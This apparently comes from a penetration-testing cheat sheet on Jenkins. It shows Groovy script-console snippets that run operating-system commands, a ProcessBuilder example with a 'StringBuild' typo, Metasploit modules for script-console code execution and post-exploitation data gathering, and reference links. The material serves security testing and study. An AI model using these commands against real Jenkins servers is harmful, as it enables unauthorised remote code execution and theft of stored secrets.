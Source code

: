 # Jenkins

## Scripting

```groovy
println "<command>".execute().text;

println "whoami".execute().text;

println "systeminfo".execute().text;
```

```groovy
println "Command processor"
def sout = new StringBuild(), serr = new StringBuilder();
def args = ["cmd", "/c", "dir C:\\path\\to\\directory\\"];
def proc = new ProcessBuilder(args);
Process process = proc.start();
process.consumeProcessOutput(sout, serr);
process.waitForOrKill(2000);
println sout;
```

## Metasploit

```
msf > use exploit/multi/http/jenkins_script_console

set rhost <target_IP>

set rport <target_PORT>
```

`msf > use post/multi/gather/jenkins_gather`

---
## References

- [Hacktricks: Jenkins](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- [Pwn Jenkins](https://github.com/gquere/pwn_jenkins)

- [Highon Coffee: Jenkins RCE via Unauthenticated API](https://highon.coffee/blog/jenkins-api-unauthenticated-rce-exploit/)

- [Double Pivoting | Metasploit and Manual Pivoting](https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/)